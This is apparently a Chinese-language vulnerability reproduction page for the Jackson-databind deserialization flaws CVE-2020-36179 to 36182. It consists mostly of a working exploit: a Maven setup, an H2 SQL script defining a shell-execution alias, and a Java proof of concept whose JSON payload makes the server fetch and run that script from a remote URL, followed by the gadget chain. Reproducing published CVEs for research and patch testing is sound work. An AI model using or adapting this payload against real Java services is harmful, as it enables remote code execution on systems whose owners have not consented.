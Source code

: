 # Jackson-databind SSRF&RCE CVE-2020-36179~36182

## 漏洞描述

漏洞类型：JDNI 注入导致 RCE

利用条件：

- 开启 enableDefaultTyping()
- 使用了 org.apache.servicemix.bundles 第三方依赖库

以下类绕过了之前 jackson-databind 维护的黑名单类，并且 JDK 版本较低的话，可造成 SSRF&RCE：

- CVE-2020-36179：org.apache.commons.dbcp.cpdsadapter.DriverAdapterCPDS
- CVE-2020-36180: org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS
- CVE-2020-36181: org.apache.tomcat.dbcp.dbcp.cpdsadapter.DriverAdapterCPDS
- CVE-2020-36182: org.apache.tomcat.dbcp.dbcp2.cpdsadapter.DriverAdapterCPDS

参考链接：

- https://github.com/Al1ex/CVE-2020-36179

## 漏洞影响

```
Jackson-databind < 2.9.10.7
```

## 漏洞复现

pom.xml：

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>com.jacksonTest</groupId>
    <artifactId>jacksonTest</artifactId>
    <version>1.0-SNAPSHOT</version>
    <dependencies>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-databind</artifactId>
            <version>2.9.10.7</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/org.apache.commons/commons-dbcp2 -->
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-dbcp2</artifactId>
            <version>2.8.0</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/com.h2database/h2 -->
        <dependency>
            <groupId>com.h2database</groupId>
            <artifactId>h2</artifactId>
            <version>1.4.199</version>
        </dependency>

        <dependency>
            <groupId>org.slf4j</groupId>
            <artifactId>slf4j-nop</artifactId>
            <version>1.7.2</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/javax.transaction/jta -->
        <dependency>
            <groupId>javax.transaction</groupId>
            <artifactId>jta</artifactId>
            <version>1.1</version>
        </dependency>
    </dependencies>
</project>
```

exec.sql：

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('calc.exe')
```

poc.java：

```
import com.fasterxml.jackson.databind.ObjectMapper;
import com.fasterxml.jackson.databind.SerializationFeature;


public class POC {
    public static void main(String[] args) throws Exception {
        String payload = "[\"org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS\",{\"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:3333/exec.sql'\"}]";
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        mapper.configure(SerializationFeature.FAIL_ON_EMPTY_BEANS, false);
        Object obj = mapper.readValue(payload, Object.class);
        mapper.writeValueAsString(obj);
    }
}
```

![](images/20221206110853.jpg)

Gadget：

```
DriverAdapterCPDS
    ->seturl
        ->getPooledConnection
            ->DirverManager.getConnection(this.url,username,pass)
```
